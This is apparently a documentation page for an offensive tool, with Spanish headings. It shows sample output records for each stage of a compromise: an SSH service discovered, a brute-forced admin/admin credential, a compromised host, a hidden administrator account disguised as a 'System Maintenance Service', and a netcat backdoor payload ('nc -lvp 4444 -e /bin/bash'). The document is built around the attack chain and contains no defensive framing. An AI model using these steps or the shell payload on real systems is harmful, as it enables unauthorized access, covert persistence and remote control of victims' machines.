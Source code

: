 ### Servicio Encontrado
```python
{
    'host': '192.168.1.100',
    'port': 22,
    'protocol': 'tcp',
    'state': 'open',
    'service': 'ssh',
    'version': 'OpenSSH 8.2'
}
```

### Credencial Encontrada
```python
{
    'host': '192.168.1.100',
    'port': 22,
    'service': 'ssh',
    'username': 'admin',
    'password': 'admin',
    'method': 'brute_force',
    'timestamp': 1640995200.0
}
```

### Sistema Comprometido
```python
{
    'host': '192.168.1.100',
    'port': 22,
    'service': 'ssh',
    'username': 'admin',
    'password': 'admin',
    'access_level': 'user',
    'timestamp': 1640995200.0
}
```

### Usuario Persistente
```python
{
    'host': '192.168.1.100',
    'username': 'svc_192_168_1_100',
    'password': 'P@ssw0rd_100!',
    'groups': ['administrators', 'remote_desktop_users'],
    'description': 'System Maintenance Service',
    'created': True,
    'timestamp': 1640995200.0
}
```

### Backdoor
```python
{
    'host': '192.168.1.100',
    'type': 'netcat',
    'port': 4444,
    'method': 'reverse_shell',
    'payload': 'nc -lvp 4444 -e /bin/bash',
    'created': True,
    'timestamp': 1640995200.0
}
```
